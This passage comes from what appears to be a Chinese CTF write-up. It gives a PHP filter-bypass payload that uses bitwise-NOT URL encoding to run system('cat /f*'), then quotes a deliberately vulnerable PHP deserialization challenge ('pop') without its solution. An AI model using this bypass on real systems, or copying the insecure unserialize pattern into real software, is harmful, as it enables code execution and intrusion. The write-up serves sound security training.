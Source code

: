 ```php
{  
    echo "蔡总说：注意审题！！！";  
}  
?>
```
- 这里过滤了大部分的字符，所以我们不能使用常规的绕过方法。    
- 又因为这里过滤了 ^ 和\`，所以我们就不能使用异或和或运算，那就只剩取反了。    
Payload：
```php
<?php
    $a = "system";
    $b = "cat /f*";
    echo "(~".urlencode(~$a).")";
    echo "(~".urlencode(~$b).");";
?>
// 执行结果为：(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%D5);
```

## [SWPUCTF 2021 新生赛]pop
- 题目源码
```php
<?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w00m = $_GET['w00m'];
unserialize($w00m);
?> 
```